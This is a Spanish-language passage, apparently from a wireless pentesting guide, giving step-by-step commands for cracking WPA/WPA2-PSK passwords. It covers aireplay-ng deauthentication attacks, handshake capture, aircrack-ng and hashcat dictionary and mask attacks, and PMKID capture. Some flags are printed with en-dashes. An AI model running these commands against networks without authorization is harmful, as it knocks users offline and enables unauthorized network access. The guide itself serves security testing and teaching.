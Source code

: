 ```bash
aireplay-ng -0 0 wlan0 -e 'nombre_red' --ignore-negative-one -a AA:BB:CC:DD:EE:FF
```

También se puede forzar la deautenticación de un único cliente conectado indicando su dirección MAC con el argumento -c. En el momento en el que se captura el 4-way-handshake airodump muestra un mensaje de alerta

```bash
aireplay-ng -0 0 wlan0 -e 'nombre_red' --ignore-negative-one -a AA:BB:CC:DD:EE:FF -c 00:11:22:33:44:55
```

Comprobar que se ha recogido el 4-way-handshake de manera correcta abriendo el fichero de captura con aircrack-ng.

```bash
aircrack-ng fichero-captura
```

Si el handshake se capturó correctamente se puede realizar el proceso de cracking del handshake con aircrack-ng, sólo acepta realizar el proceso de cracking mediante diccionarios de posibles contraseñas.

```bash
aircrack-ng –b AA:BB:CC:DD:EE:FF –w diccionario-contraseñas.txt fichero-captura.cap
```

Dado que existen herramientas más eficientes para realizar el proceso de cracking se puede exportar los datos del 4-way-handshake en otro formato para utilizar otra herramienta de cracking. A continuación se muestra el proceso de exportación y posterior cracking del 4-way-handshake con la herramienta hashcat, tanto mediante una máscara de contraseñas cómo mediante el uso de un diccionario.

```bash
aircrack-ng fichero-captura.cap –j handshake.hccapx
hashcat -m 2500 -a3 handshake.hccapx -1 "_-.$?!" -2 ?l?u?d?1 ?u?l?l?l?l?l?2?2?2?2?2?2 --potfile-path=fichero.pot
hashcat -m 2500 –a0 handshake.hccapx diccionario_passwords.txt –r fichero_reglas_transposicion --potfile-path=fichero.pot
```

- **Averiguar contraseña WPA/WPA2-PSK sin clientes conectados (cracking PMKID)**: El proceso consiste en extraer el RSN IE (Robust Security Network Information Element) de un sólo frame EAPOL. El RSN IE es un campo opcional que contiene el PMKID, el cual se genera por el propio router cuando un usuario intenta autenticarse.

Al igual que en la técnica anterior, es necesario fijar nuestra monitorización sobre la red, canal y punto de acceso adecuado para guardar una captura de todo el tráfico monitorizado.

```bash
airodump-ng wlan0 –c 11 --essid 'nombre_red' –bssid AA:BB:CC:DD:EE:FF -w fichero-captura
```

Una vez se ha capturado el PMKID airodump muestra un mensaje de alerta. En este caso la única opción es realizar el proceso de cracking del PMKID capturado con hashcat para ello es necesario exportar el PMKID con aircrack-ng

```bash
aircrack-ng fichero-captura.cap –j pmkid.hccapx
```
